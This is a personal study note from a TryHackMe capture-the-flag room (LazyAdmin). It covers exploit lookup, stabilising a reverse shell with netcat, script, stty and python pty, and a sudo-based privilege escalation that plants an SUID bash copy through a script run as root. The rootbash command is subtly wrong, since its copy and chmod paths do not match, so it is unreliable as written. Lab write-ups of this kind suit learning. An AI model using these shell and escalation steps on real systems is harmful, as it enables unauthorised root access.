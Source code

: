 
2024-06-12 19:21

Source: #tryhackme #CTF #privesc 

Tags: [[shell]] [[revshell]] [[sudo]] [[shellspawn]]

`searchsploit -x path` - use this to see details about the exploit and then configure that exploit according to the current machine

if you don't know the version of a service running, then simply search the exploit on exploitDB and guess the version 

sometimes to find the login page you might have to 
- do recursive gobusting 
- look at the documentation of the web app

use `rlwrap` with your `nc` commands - ability to use arrow keys and access command history 

#### Spawning a shell

```
/usr/bin/script -qc /bin/bash /dev/null

#background the session using ctrl + z

stty raw -echo

#foreground the session using nc -nlvp previous_listening_port 

export TERM=xterm
```
use the above to spawn a shell without using py

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
use the above to upgrade the shell using py 

when ever you get a revshell don't `cd` into dir's instead use `ls` to check out content and then cat out the desired content

if you are `www-data` on a linux machine then you should check sudo for privesc

checkout Tib3rius udemy course on Linux privesc for the rootbash method in this method 
- Create an SUID version of bash that we just chuck in the temp folder that way it's gone when the system reboots (easy cleanup) and we can just run it with the dash P option to become root

```
echo "cp /bin/bash /tmp/rootbash, chmod +s /tmp/bash" > /etc/copy.sh
```
here the whole thing is being copied to `/etc/copy `because in the current box that file is running as root
after running this command check out `sudo -l `to see the perms for current user, further take the`sudo -l` output and sudo that path 
eg. `sudo /usr/bin/perl /home/itguy/backup.pl`
check `tmp` dir, it should have the rootbash binary. run that rootbash binary with `-p` and become root



### References
[TryHackMe | LazyAdmin](https://tryhackme.com/r/room/lazyadmin)